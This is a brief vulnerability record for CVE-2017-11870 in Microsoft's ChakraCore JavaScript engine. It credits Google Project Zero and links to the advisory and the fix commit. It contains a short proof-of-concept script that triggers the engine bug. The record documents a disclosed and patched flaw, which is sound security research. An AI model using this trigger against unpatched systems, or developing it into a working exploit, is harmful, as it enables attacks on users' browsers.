 # CVE-2017-11870

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f(x) {
    arguments;

    {
        function x() {
        }
    }
}

for (let i = 0; i < 10000; i++)
    f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11870)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1367)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/b44ee8300ae03026d3c39cdbbfd32d410ac187f6)